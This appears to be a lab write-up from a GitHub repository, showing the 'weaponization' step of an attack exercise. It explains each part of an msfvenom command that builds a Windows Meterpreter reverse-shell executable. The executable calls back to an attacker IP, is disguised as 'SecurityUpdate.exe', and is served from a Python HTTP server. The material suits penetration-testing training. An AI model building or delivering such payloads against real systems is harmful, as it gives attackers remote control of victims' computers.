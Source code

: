 # Weaponization

### Objective: Create a malicious payload and delivery mechanism.

### Action:

1. Use MSFVenom (a tool for creating payloads) to generate a malicious executable that can execute a Meterpreter shell (a Metasploit payload for remote control). 

![image](https://github.com/user-attachments/assets/fc6acd6d-1b8f-4dc9-8d76-ab57a5fc4574)

- Here's a breakdown in simple terms:

  - `msfvenom` – A tool used to generate payloads (malicious code) for penetration testing.
  - `-p windows/meterpreter/reverse_tcp` – This specifies the payload type:
    - `windows/meterpreter/reverse_tcp` is a payload that creates a "reverse shell," meaning the target machine (victim) will connect back to the attacker's computer.
  - `LHOST=10.19.19.134` – The attacker's IP address where the victim's machine will connect.
  - `LPORT=4444` – The port on which the attacker's computer is listening for incoming connections.
  - `-f exe` – Specifies the output format of the payload (in this case, a Windows executable `.exe` file).
  - `-o SecurityUpdate.exe` – Saves the malicious executable file as `SecurityUpdate.exe`.

- The Output:

The tool automatically selects Windows as the target platform.
It picks **x86 (32-bit architecture)** since no specific architecture was mentioned.
No encoding (obfuscation) is applied, so the payload is "raw."
The payload itself is **354 bytes** in size, but the final executable is **73,802 bytes**.
The malicious file is saved as `SecurityUpdate.exe`.

- What This Means:
If someone runs `SecurityUpdate.exe` on a Windows machine, it will create a connection from the victim's computer back to the attacker's system (`10.19.19.134:4444`). This allows the attacker to control the machine remotely using Meterpreter, a powerful post-exploitation tool in Metasploit.

2. Host the payload in a Python HTTP server on port `8000`.

![image](https://github.com/user-attachments/assets/1c66b5c9-4f4c-4285-8f5a-d86b5a14c244)

